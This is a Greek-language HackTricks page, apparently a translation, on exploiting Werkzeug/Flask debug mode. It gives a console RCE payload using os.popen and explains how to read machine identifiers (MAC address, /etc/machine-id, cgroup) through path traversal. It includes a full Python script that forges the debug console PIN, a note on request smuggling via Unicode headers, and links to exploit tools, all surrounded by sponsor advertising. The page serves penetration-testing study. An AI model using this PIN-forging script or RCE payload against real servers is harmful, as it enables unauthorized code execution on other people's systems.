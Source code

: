 # Werkzeug / Flask Debug

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Αποκτήστε την προοπτική ενός hacker για τις εφαρμογές σας, το δίκτυο και το cloud**

**Βρείτε και αναφέρετε κρίσιμες, εκμεταλλεύσιμες ευπάθειες με πραγματικό επιχειρηματικό αντίκτυπο.** Χρησιμοποιήστε τα 20+ προσαρμοσμένα εργαλεία μας για να χαρτογραφήσετε την επιφάνεια επίθεσης, να βρείτε ζητήματα ασφαλείας που σας επιτρέπουν να κλιμακώσετε τα προνόμια και να χρησιμοποιήσετε αυτοματοποιημένα exploits για να συλλέξετε βασικά αποδεικτικά στοιχεία, μετατρέποντας τη σκληρή δουλειά σας σε πειστικές αναφορές.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

Εάν η αποσφαλμάτωση είναι ενεργή, μπορείτε να προσπαθήσετε να αποκτήσετε πρόσβαση στο `/console` και να αποκτήσετε RCE.
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

Υπάρχουν επίσης αρκετά exploits στο διαδίκτυο όπως [αυτό](https://github.com/its-arun/Werkzeug-Debug-RCE) ή ένα στο metasploit.

## Pin Protected - Path Traversal

Σε ορισμένες περιπτώσεις, το **`/console`** endpoint θα είναι προστατευμένο με ένα pin. Εάν έχετε μια **ευπάθεια διαδρομής αρχείου**, μπορείτε να διαρρεύσετε όλες τις απαραίτητες πληροφορίες για να δημιουργήσετε αυτό το pin.

### Werkzeug Console PIN Exploit

Επιβάλετε μια σελίδα σφάλματος αποσφαλμάτωσης στην εφαρμογή για να δείτε αυτό:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
Ένα μήνυμα σχετικά με το σενάριο "κλειδωμένη κονσόλα" συναντάται όταν προσπαθείτε να αποκτήσετε πρόσβαση στη διεπαφή αποσφαλμάτωσης του Werkzeug, υποδεικνύοντας την απαίτηση για έναν κωδικό PIN για να ξεκλειδώσετε την κονσόλα. Προτείνεται να εκμεταλλευτείτε τον κωδικό PIN της κονσόλας αναλύοντας τον αλγόριθμο δημιουργίας PIN στο αρχείο αρχικοποίησης αποσφαλμάτωσης του Werkzeug (`__init__.py`). Μηχανισμός δημιουργίας PIN μπορεί να μελετηθεί από το [**Werkzeug source code repository**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py), αν και συνιστάται να αποκτήσετε τον πραγματικό κωδικό του διακομιστή μέσω μιας ευπάθειας διαδρομής αρχείου λόγω πιθανών διαφορών έκδοσης.

Για να εκμεταλλευτείτε τον κωδικό PIN της κονσόλας, απαιτούνται δύο σύνολα μεταβλητών, `probably_public_bits` και `private_bits`:

#### **`probably_public_bits`**

* **`username`**: Αναφέρεται στον χρήστη που ξεκίνησε τη συνεδρία Flask.
* **`modname`**: Συνήθως ορίζεται ως `flask.app`.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Γενικά επιλύεται σε **Flask**.
* **`getattr(mod, '__file__', None)`**: Αντιπροσωπεύει την πλήρη διαδρομή προς το `app.py` εντός του καταλόγου Flask (π.χ., `/usr/local/lib/python3.5/dist-packages/flask/app.py`). Αν το `app.py` δεν είναι εφαρμόσιμο, **δοκιμάστε το `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`**: Ανακτά τη διεύθυνση MAC της τρέχουσας μηχανής, με το `str(uuid.getnode())` να την μετατρέπει σε δεκαδική μορφή.
* Για να **καθορίσετε τη διεύθυνση MAC του διακομιστή**, πρέπει να προσδιορίσετε τη δραστήρια δικτυακή διεπαφή που χρησιμοποιείται από την εφαρμογή (π.χ., `ens3`). Σε περιπτώσεις αβεβαιότητας, **διαρρεύστε το `/proc/net/arp`** για να βρείτε το ID της συσκευής, στη συνέχεια **εξάγετε τη διεύθυνση MAC** από **`/sys/class/net/<device id>/address`**.
*   Η μετατροπή μιας δεκαεξαδικής διεύθυνσης MAC σε δεκαδική μπορεί να πραγματοποιηθεί όπως φαίνεται παρακάτω:

```python
# Παράδειγμα διεύθυνσης MAC: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: Συνενώνει δεδομένα από το `/etc/machine-id` ή το `/proc/sys/kernel/random/boot_id` με την πρώτη γραμμή του `/proc/self/cgroup` μετά την τελευταία κάθετο (`/`).

<details>

<summary>Κώδικας για `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

Αφού συγκεντρωθούν όλα τα απαραίτητα δεδομένα, το exploit script μπορεί να εκτελεστεί για να παραχθεί το PIN της κονσόλας Werkzeug:

Αφού συγκεντρωθούν όλα τα απαραίτητα δεδομένα, το exploit script μπορεί να εκτελεστεί για να παραχθεί το PIN της κονσόλας Werkzeug. Το script χρησιμοποιεί τα συγκεντρωμένα `probably_public_bits` και `private_bits` για να δημιουργήσει ένα hash, το οποίο στη συνέχεια υποβάλλεται σε περαιτέρω επεξεργασία για να παραχθεί το τελικό PIN. Παρακάτω είναι ο κώδικας Python για την εκτέλεση αυτής της διαδικασίας:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
Αυτό το σενάριο παράγει το PIN με την κατακερματισμένη σύνθεση των bits, προσθέτοντας συγκεκριμένα αλάτια (`cookiesalt` και `pinsalt`), και μορφοποιώντας την έξοδο. Είναι σημαντικό να σημειωθεί ότι οι πραγματικές τιμές για `probably_public_bits` και `private_bits` πρέπει να αποκτηθούν με ακρίβεια από το σύστημα στόχο για να διασφαλιστεί ότι το παραγόμενο PIN ταιριάζει με αυτό που αναμένεται από την κονσόλα Werkzeug.

{% hint style="success" %}
Αν είστε σε μια **παλιά έκδοση** του Werkzeug, δοκιμάστε να αλλάξετε τον **αλγόριθμο κατακερματισμού σε md5** αντί για sha1.
{% endhint %}

## Werkzeug Unicode χαρακτήρες

Όπως παρατηρήθηκε σε [**αυτό το ζήτημα**](https://github.com/pallets/werkzeug/issues/2833), το Werkzeug δεν κλείνει ένα αίτημα με χαρακτήρες Unicode στις κεφαλίδες. Και όπως εξηγήθηκε σε [**αυτή τη γραφή**](https://mizu.re/post/twisty-python), αυτό μπορεί να προκαλέσει μια ευπάθεια CL.0 Request Smuggling.

Αυτό συμβαίνει γιατί, στο Werkzeug είναι δυνατό να σταλούν μερικοί **Unicode** χαρακτήρες και αυτό θα προκαλέσει **σπάσιμο** του διακομιστή. Ωστόσο, αν η σύνδεση HTTP δημιουργήθηκε με την κεφαλίδα **`Connection: keep-alive`**, το σώμα του αιτήματος δεν θα διαβαστεί και η σύνδεση θα παραμείνει ανοιχτή, οπότε το **σώμα** του αιτήματος θα θεωρηθεί ως το **επόμενο HTTP αίτημα**.

## Αυτοματοποιημένη Εκμετάλλευση

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## Αναφορές

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Αποκτήστε μια προοπτική χάκερ για τις διαδικτυακές σας εφαρμογές, το δίκτυο και το cloud**

**Βρείτε και αναφέρετε κρίσιμες, εκμεταλλεύσιμες ευπάθειες με πραγματικό επιχειρηματικό αντίκτυπο.** Χρησιμοποιήστε τα 20+ προσαρμοσμένα εργαλεία μας για να χαρτογραφήσετε την επιφάνεια επίθεσης, να βρείτε ζητήματα ασφάλειας που σας επιτρέπουν να κλιμακώσετε προνόμια, και να χρησιμοποιήσετε αυτοματοποιημένες εκμεταλλεύσεις για να συλλέξετε βασικά αποδεικτικά στοιχεία, μετατρέποντας τη σκληρή σας δουλειά σε πειστικές αναφορές.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
